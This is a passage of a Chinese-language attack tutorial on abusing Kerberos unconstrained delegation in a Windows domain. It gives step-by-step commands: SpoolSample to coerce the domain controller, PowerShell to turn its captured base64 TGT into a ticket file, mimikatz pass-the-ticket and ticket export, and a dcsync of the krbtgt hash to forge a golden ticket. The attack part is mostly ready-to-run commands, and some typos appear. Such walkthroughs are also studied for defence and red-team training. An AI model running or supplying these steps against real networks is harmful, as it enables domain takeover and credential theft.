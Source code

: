![]()

切换到普通域用户登入，启动SpoolSample，输入域控名和非约束委派的机械账户名：

SpoolSample.exeDC user2

![]()

回到域成员主机的管理员账户，看到抓取到了域控主机的bash64编码TGT票据信息：

![]()

选择 编辑 \-- 替换：

![]()

在查找内容输入4个空格，点击全部替换，看到base64编码的tgt前面4个空格去掉了：

![]()![]()

执行以下powershell语句，将域控的base64编码tgt填入语句，执行成功后在当前目录下生成dc.birbi名称的主机票据：

[IO.File]::WriteAllBytes("dc.kirbi",[Convert]::FromBase64String("捕获到的base64编码"))

![]()

使用mimikatz工具将生成的域控主机tgt票据文件导入内存：

kerberos::purge

kerberos::list

kerberos::pttC:\Users\Administrator\dc.kirbi

![]()

再使用mimikatz工具将域控主机的tgt票据导出：

privilege::debug

sekurlsa::tickets /export

![]()![]()

最后再使用mimikatz工具将导出的域控主机tgt票据导入内存：

kerberos::ptt C:\Users\Administrator\tools\\[0;479a6]-2-0-60a10000-DC$@krbtgt-
ZACK.COM.kirbi

![]()

导入成功后就有了域控的TGT，就可以使用mimikatz的dcsync功能导出域控krbtgt用户的ntlm hash来制作黄金票据：

mimikatz.exe "lsadump::dcsync /domain:zack.com /user:krbtgt" "exit" >
krbtgt.txt

![]()![]()
